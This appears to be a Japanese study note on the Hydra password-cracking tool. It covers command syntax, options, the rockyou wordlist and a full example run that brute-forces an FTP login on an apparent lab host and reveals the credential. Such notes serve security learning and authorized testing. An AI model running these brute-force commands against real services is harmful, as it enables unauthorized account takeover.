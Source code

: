 ## 1.hydraとは
- 能動的パスワードクラックを行うツール
- 総当たりでパスワードを試行する
- SSHやFTPなどのサービスや、Webアプリのログインフォームに対して攻撃が可能
- `wordlist`の使用が可能  
  
## 2.構　文
### 2-1.ユーザ名が既知
```bash
hydra -l <ユーザ名> -P <パスワードリスト> <IPアドレス> <プロトコル>
```
  
### 2-2.ユーザ名、パスワード共にクラック
```bash
hydra -L <ユーザリストファイル> -P <パスワードリスト> http:<ターゲットのパス>
```
## 3.代表的なオプション
- `-l`：`ユーザ名`、あるいは`ID`が既知のとき、直接指定するオプション  
- `-L`：`ユーザリストファイルリスト`を指定するオプション
- `-p`：`パスワード`が既知の時、直接指定するオプション
- `-P`：`パスワードリストファイルリスト`を指定するオプション 
- `-V`：詳細の出力
- `-vV`：更に詳細の出力
- `-f`：ログインに成功したらそのタイミングで総当たりをやめる
- `-t`：ターゲット毎に並列に接続する数を指定（デフォルト：16）
  
## 4.頻出パスワードリスト
- `/usr/share/wordlists/rockyou.txt`  
  
## 5.実行例
- `ユーザ名`が`mike`で`パスワードリスト`に`/usr/share/wordlists/rockyou.txt`を指定  
- パスワードが`password`であると解析  
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.35.212 ftp     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-09 21:55:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.35.212:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[21][ftp] host: 10.10.35.212   login: mike   password: password
[STATUS] attack finished for 10.10.35.212 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-09 21:55:28
```

## 6.TIPS
- 並列接続数
  - `-tオプション`は同時に実行するタスクの数を設定できるが、-tを付けないデフォルト設定は16個同時にタスクを実行する。
  - しかし、タスクが多いと、検知漏れ（フォールスネガティブ）になる可能性があるため、同時タスク数を4つに減らすのが最適だとされている 
  
## 7.参　考
[kali linuxでhydraを使ってパスワードクラックをしてみた - Qiita](https://qiita.com/miya_zato/items/0c32dc71208460515e34)  
[ハッカーはhydraでログインクラックを確認する(Kali Linux) - AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/hydra/)  
  
